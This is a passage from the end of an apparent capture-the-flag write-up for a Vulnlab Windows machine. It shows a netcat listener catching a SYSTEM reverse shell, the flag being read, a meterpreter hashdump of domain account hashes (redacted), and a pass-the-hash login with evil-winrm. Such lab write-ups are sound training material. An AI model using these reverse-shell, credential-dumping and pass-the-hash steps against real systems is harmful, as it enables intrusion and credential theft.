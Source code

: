 After firing up the scan we got our shell.

```c
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.8.1.142] from (UNKNOWN) [10.10.118.121] 54847

PS C:\Windows\system32> whoami
nt authority\system
```

## root.txt

```c
PS C:\Users\Administrator\Desktop> type root.txt
VL{REDACTED}
```

## Post Exploitation

```c
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:REDACTED:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:REDACTED:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:REDACTED:::
jgre808:1113:aad3b435b51404eeaad3b435b51404ee:REDACTED:::
bcla614:1114:aad3b435b51404eeaad3b435b51404ee:REDACTED:::
hmar648:1115:aad3b435b51404eeaad3b435b51404ee:REDACTED:::
jgar931:1116:aad3b435b51404eeaad3b435b51404ee:REDACTED:::
fcla801:1117:aad3b435b51404eeaad3b435b51404ee:REDACTED:::
jwil197:1118:aad3b435b51404eeaad3b435b51404ee:REDACTED:::
grob171:1119:aad3b435b51404eeaad3b435b51404ee:REDACTED:::
fdav736:1120:aad3b435b51404eeaad3b435b51404ee:REDACTED:::
jsmi791:1121:aad3b435b51404eeaad3b435b51404ee:REDACTED:::
hjoh690:1122:aad3b435b51404eeaad3b435b51404ee:REDACTED:::
svc_inventory_win:1123:aad3b435b51404eeaad3b435b51404ee:REDACTED:::
svc_inventory_lnx:1124:aad3b435b51404eeaad3b435b51404ee:REDACTED:::
intern:1125:aad3b435b51404eeaad3b435b51404ee:REDACTED:::
INVENTORY$:1000:aad3b435b51404eeaad3b435b51404ee:REDACTED:::
```

```c
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i sweep.vl -u 'administrator' -H REDACTED    

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```
